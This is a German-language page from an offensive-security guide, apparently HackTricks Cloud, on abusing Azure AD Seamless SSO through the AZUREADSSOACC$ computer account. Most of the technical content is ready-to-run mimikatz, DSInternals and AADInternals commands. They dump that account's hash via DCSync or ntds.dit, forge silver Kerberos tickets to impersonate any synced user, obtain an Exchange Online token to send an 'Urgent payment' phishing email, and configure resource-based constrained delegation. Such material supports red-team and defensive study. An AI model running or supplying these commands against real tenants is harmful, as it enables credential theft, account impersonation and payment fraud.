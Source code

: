 # Az - Nahtloses SSO

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>

## Grundlegende Informationen

[Aus den Dokumenten:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) meldet Benutzer automatisch an, wenn sie sich auf ihren Unternehmensgeräten befinden, die mit Ihrem Unternehmensnetzwerk verbunden sind. Wenn aktiviert, müssen Benutzer **ihre Passwörter nicht eingeben, um sich bei Azure AD anzumelden**, und normalerweise auch nicht ihre Benutzernamen eingeben. Diese Funktion ermöglicht es Ihren Benutzern, einfachen Zugriff auf Ihre cloudbasierten Anwendungen zu erhalten, ohne zusätzliche lokale Komponenten zu benötigen.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

Grundsätzlich meldet Azure AD Seamless SSO Benutzer an, wenn sie sich auf einem lokal verbundenen PC befinden.

Es wird sowohl von [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) als auch von [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) unterstützt.

Desktop SSO verwendet **Kerberos** zur Authentifizierung. Wenn konfiguriert, erstellt Azure AD Connect ein **Computerkonto namens AZUREADSSOACC`$`** im lokalen AD. Das Passwort des `AZUREADSSOACC$`-Kontos wird **im Klartext an Azure AD gesendet** während der Konfiguration.

Die **Kerberos-Tickets** werden mit dem **NTHash (MD4)** des Passworts verschlüsselt, und Azure AD verwendet das gesendete Passwort zum Entschlüsseln der Tickets.

**Azure AD** stellt einen **Endpunkt** (https://autologon.microsoftazuread-sso.com) bereit, der Kerberos-**Tickets** akzeptiert. Der Browser des domänenverbundenen Computers leitet die Tickets an diesen Endpunkt für SSO weiter.

### Lokal -> Cloud

Das **Passwort** des Benutzers **`AZUREADSSOACC$` ändert sich nie**. Daher könnte ein Domänenadministrator den **Hash dieses Kontos kompromittieren** und ihn dann verwenden, um **Silber-Tickets zu erstellen**, um sich mit **beliebigen lokal synchronisierten Benutzern** mit Azure zu verbinden:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Mit dem Hash können Sie jetzt **Silbertickets generieren**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Um das Silberticket zu nutzen, sollten die folgenden Schritte ausgeführt werden:

1. **Browser starten:** Mozilla Firefox sollte gestartet werden.
2. **Browser konfigurieren:**
   * Navigieren Sie zu **`about:config`**.
   * Setzen Sie die Einstellung für [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) auf die angegebenen [Werte](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
     * `https://aadg.windows.net.nsatc.net`
     * `https://autologon.microsoftazuread-sso.com`
3. **Zugriff auf die Webanwendung:**
   * Besuchen Sie eine Webanwendung, die in die AAD-Domäne der Organisation integriert ist. Ein häufiges Beispiel ist [Office 365](https://portal.office.com/).
4. **Authentifizierungsprozess:**
   * Geben Sie am Anmeldebildschirm den Benutzernamen ein und lassen Sie das Passwortfeld leer.
   * Drücken Sie zur Fortsetzung entweder TAB oder ENTER.

{% hint style="success" %}
Dies umgeht nicht die MFA, wenn sie aktiviert ist.
{% endhint %}

#### ~~Erstellen von Kerberos-Tickets für Cloud-only-Benutzer~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Wenn die Active Directory-Administratoren Zugriff auf Azure AD Connect haben, können sie **SID für jeden Cloud-Benutzer festlegen**. Auf diese Weise können Kerberos-**Tickets auch für Cloud-only-Benutzer erstellt werden**. Die einzige Voraussetzung ist, dass die SID eine korrekte [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) ist.

{% hint style="danger" %}
Die Änderung der SID von Cloud-only-Admin-Benutzern ist jetzt **von Microsoft blockiert**.\
Weitere Informationen finden Sie unter [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud über Ressourcenbasierte eingeschränkte Delegierung <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Jeder, der Computerkonten (`AZUREADSSOACC$`) im Container oder OU verwalten kann, in dem dieses Konto enthalten ist, kann **eine ressourcenbasierte eingeschränkte Delegierung über das Konto konfigurieren und darauf zugreifen**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referenzen

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Ich bin in Ihrer Cloud und lese alle E-Mails - Hacking von Azure AD über Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks bewerben möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositorys senden.

</details>
